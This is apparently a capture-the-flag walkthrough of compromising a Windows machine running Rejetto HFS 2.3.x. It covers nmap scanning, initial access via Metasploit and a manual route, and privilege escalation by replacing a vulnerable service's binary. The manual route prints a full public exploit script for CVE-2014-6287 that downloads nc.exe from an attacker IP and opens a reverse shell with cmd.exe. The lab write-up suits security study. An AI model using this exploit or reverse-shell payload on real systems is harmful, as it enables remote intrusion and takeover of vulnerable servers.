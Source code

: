 - ### Scanning & Enumeration
	- **nmap** results
		- Fast Scan
			- ![Screenshot 2024-07-28 230303.png](../assets/Screenshot_2024-07-28_230303_1722314700844_0.png)
		- In-Depth Scan
			- ![Screenshot 2024-07-28 230406.png](../assets/Screenshot_2024-07-28_230406_1722314726653_0.png)
			- ![Screenshot 2024-07-28 230332.png](../assets/Screenshot_2024-07-28_230332_1722314739671_0.png)
			- ![Screenshot 2024-07-28 230346.png](../assets/Screenshot_2024-07-28_230346_1722314747620_0.png){:height 285, :width 578}
		- A *Regetto HTTP file server* is served on port `8080`
			- Version - `2.3.x` - vulnerable to `CVE-2014-6287`
- ### Initial Access
	- `auto` **Metasploit**
		- ![Screenshot 2024-07-28 230454.png](../assets/Screenshot_2024-07-28_230454_1722315028320_0.png)
		- ![Screenshot 2024-07-28 230511.png](../assets/Screenshot_2024-07-28_230511_1722315042571_0.png)
		- ![Screenshot 2024-07-28 230524.png](../assets/Screenshot_2024-07-28_230524_1722315058227_0.png)
		- ![Screenshot 2024-07-28 230534.png](../assets/Screenshot_2024-07-28_230534_1722315071953_0.png)
	- `manual`
		- Use the `Python2` script from `ExploitDB` - https://www.exploit-db.com/exploits/
			-
			  ```
			  #!/usr/bin/python2
			  # Exploit Title: HttpFileServer 2.3.x Remote Command Execution
			  # Google Dork: intext:"httpfileserver 2.3"
			  # Date: 04-01-2016
			  # Remote: Yes
			  # Exploit Author: Avinash Kumar Thapa aka "-Acid"
			  # Vendor Homepage: http://rejetto.com/
			  # Software Link: http://sourceforge.net/projects/hfs/
			  # Version: 2.3.x
			  # Tested on: Windows Server 2008 , Windows 8, Windows 7
			  # CVE : CVE-2014-6287
			  # Description: You can use HFS (HTTP File Server) to send and receive files.
			  #	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
			  #	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
			   
			  #Usage : python Exploit.py <Target IP address> <Target Port Number>
			  
			  #EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
			  #          You may need to run it multiple times for success!
			  
			  
			  import urllib2
			  import sys
			  
			  try:
			  	def script_create():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")
			  
			  	def execute_script():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")
			  
			  	def nc_run():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")
			  
			  	ip_addr = "192.168.44.128" #attack IP address
			  	local_port = "443" # attack Port number
			  	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
			  	save= "save|" + vbs
			  	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
			  	exe= "exec|"+vbs2
			  	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
			  	exe1= "exec|"+vbs3
			  	script_create()
			  	execute_script()
			  	nc_run()
			  except:
			  	print """[.]Something went wrong..!
			  	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
			  	Don't forgot to change the Local IP address and Port number on the script"""
			  	
			              
			  ```
			-
		- An `HTTP` server must be running on the attacker machine so that the script can `GET` the `nc.exe` binary
		  collapsed:: true
			- ![Screenshot 2024-07-30 092901.png](../assets/Screenshot_2024-07-30_092901_1722315984876_0.png)
		- Using the `nc.exe` binary the script will connect back the listener
			- ![Screenshot 2024-07-30 092909.png](../assets/Screenshot_2024-07-30_092909_1722315995005_0.png)
		- The script is run twice for both of the above actions to take place
			- ![Screenshot 2024-07-30 092917.png](../assets/Screenshot_2024-07-30_092917_1722316037939_0.png)
	-
- ### Privilege Escalation
	- `auto` Metasploit
		- Upload `PowerUp.ps1` script to search for *privesc* vectors
			- ![Screenshot 2024-07-28 231504.png](../assets/Screenshot_2024-07-28_231504_1722315224891_0.png)
		- Run `Invoke-AllChecks` to run the script
			- ![Screenshot 2024-07-28 231736.png](../assets/Screenshot_2024-07-28_231736_1722315270611_0.png)
		- Generate `reverse_tcp` payload
			- ![Screenshot 2024-07-28 232318.png](../assets/Screenshot_2024-07-28_232318_1722315333480_0.png)
		- Stop the vulnerable service & Upload the payload [in the execution path of the service]
			- ![Screenshot 2024-07-29 095301.png](../assets/Screenshot_2024-07-29_095301_1722315415555_0.png)
		- Start the service with a running `netcat` listener to capture the shell
			- ![Screenshot 2024-07-29 095353.png](../assets/Screenshot_2024-07-29_095353_1722315482525_0.png)
			- ![Screenshot 2024-07-29 095415.png](../assets/Screenshot_2024-07-29_095415_1722315501627_0.png)
			- ![Screenshot 2024-07-29 095521.png](../assets/Screenshot_2024-07-29_095521_1722315510795_0.png)
	- `manual`
		- For enumeration of `privesc` vectors -> use `WinPEAS`
			- ![Screenshot 2024-07-30 093656.png](../assets/Screenshot_2024-07-30_093656_1722316144315_0.png)
			- ![Screenshot 2024-07-30 093702.png](../assets/Screenshot_2024-07-30_093702_1722316150991_0.png)
		- On running `WinPEAS`
		  collapsed:: true
			- ![Screenshot 2024-07-30 094010.png](../assets/Screenshot_2024-07-30_094010_1722316216532_0.png)
			- ![Screenshot 2024-07-30 093934.png](../assets/Screenshot_2024-07-30_093934_1722316191389_0.png)
			- ![Screenshot 2024-07-30 093951.png](../assets/Screenshot_2024-07-30_093951_1722316199532_0.png)
		- Stop the running service - `sc stop AdvancedSystemCareService9`
		- Get the payload executable from the our HTTP server
			- ![Screenshot 2024-07-30 094950.png](../assets/Screenshot_2024-07-30_094950_1722316303431_0.png)
		- Start the service with the payload in execution path - `sc start AdvancedSystemCareService9`
			- ![124.png](../assets/124_1722316495566_0.png){:height 220, :width 578}
			- ![123.png](../assets/123_1722316551686_0.png)
